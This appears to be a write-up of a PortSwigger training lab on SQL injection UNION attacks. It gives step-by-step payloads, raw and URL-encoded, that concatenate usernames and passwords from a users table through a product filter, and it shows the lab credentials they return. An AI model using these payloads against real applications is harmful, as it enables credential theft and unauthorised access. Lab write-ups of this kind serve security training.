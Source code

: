 
# SQL injection UNION attack, retrieving multiple values in a single column

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___
**NOTE: => Retrieving multiple values within a single column
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:**
`' UNION SELECT username || '~' || password FROM users--`

step 1

![screnshot](./images/lab6_lifestyle_category.png)


step 2

`' UNION SELECT username || '~' || password FROM users--`
URL Encoded
`'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`
1st payload
`/filter?category=Lifestyle'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`

![screnshot](./images/lab6_internal_error.png)

step 3

`' UNION SELECT NULL,username || '~' || password FROM users--`
`'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`
final payload
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`

![screnshot](./images/lab6_administor_id_password.png)

step 4

```html
<tr>
	<th>administrator~i5dmpumi3gj0f9j6u0m9</th>
</tr>
<tr>
	<th>carlos~nkvfe8sien71r8lq6hz0</th>
</tr>
<tr>
	<th>wiener~8bhjp9xprgbywgaf4cy6</th>
</tr>
```

![screnshot](./images/lab6_solved_lab.png)
